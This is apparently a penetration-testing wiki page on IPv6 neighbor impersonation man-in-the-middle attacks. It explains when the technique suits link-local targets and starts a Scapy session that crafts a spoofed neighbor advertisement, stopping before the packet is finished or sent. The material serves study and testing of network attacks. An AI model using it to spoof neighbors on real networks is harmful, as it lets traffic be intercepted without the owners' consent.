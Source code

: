 ![](<../../.gitbook/assets/image (291) (1) (1).png>)

## Exploitation

The IPv6 Neighbor Impersonation MitM attack is particularly useful when exploiting link-local autoconfiguration nodes (using the address prefix FE80::/10) and when the attack intends to exploit a limited number of IPv6 targets. Since the attacker must send ICMPv6 NS messages frequently for each victim on the network, this attack does not scale well where lots of target devices are being exploited. In wide-scale IPv6 MitM attacks, an alternate attack technique using router impersonation is recommended.



## Using Scapy

We can put this theory into practice by fabricating our own custom neighbor advertisements and unicasting them to our intended victim. For this example, we'll use Scapy to craft our malicious advertisement layer by layer:

```
>>> ls(Ether)
dst        : DestMACField         = (None)
src        : SourceMACField       = (None)
type       : XShortEnumField      = (0)
>>> ether=(Ether(dst='00:00:00:00:00:0b', src='00:00:00:00:00:0c'))
>>> ls(IPv6)
version    : BitField             = (6)
tc         : BitField             = (0)
fl         : BitField             = (0)
plen       : ShortField           = (None)
nh         : ByteEnumField        = (59)
hlim       : ByteField            = (64)
src        : SourceIP6Field       = (None)
dst        : IP6Field             = ('::1')
>>> ipv6=IPv6(src='fe80::1', dst='fe80::2')
>>> ls(ICMPv6ND_NA)
type       : ByteEnumField        = (136)
code       : ByteField            = (0)
cksum      : XShortField          = (None)
R          : BitField             = (1)
S          : BitField             = (0)
O          : BitField             = (1)
```